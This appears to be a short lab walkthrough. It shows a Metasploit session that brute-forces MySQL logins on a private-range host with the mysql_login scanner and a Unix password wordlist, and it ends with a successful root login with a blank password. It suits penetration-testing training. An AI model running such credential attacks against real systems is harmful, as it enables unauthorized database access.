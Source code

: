 

**bruteforce Mysql credentials with metasploit `auxiliary/scanner/mysql/mysql_login`**

```bash
msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_login) > options 

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          vagrant          no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          vagrant          no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 10.4.18.58:3306       - 10.4.18.58:3306 - Found remote MySQL version 5.5.20
[-] 10.4.18.58:3306       - 10.4.18.58:3306 - LOGIN FAILED: root:vagrant (Incorrect: Access denied for user 'root'@'ip-10-10-22-2.ec2.internal' (using password: YES))
[+] 10.4.18.58:3306       - 10.4.18.58:3306 - Success: 'root:'
[*] 10.4.18.58:3306       - Scanned 1 of 1 hosts (100% complete)

```

we can login to mysql with root and no password
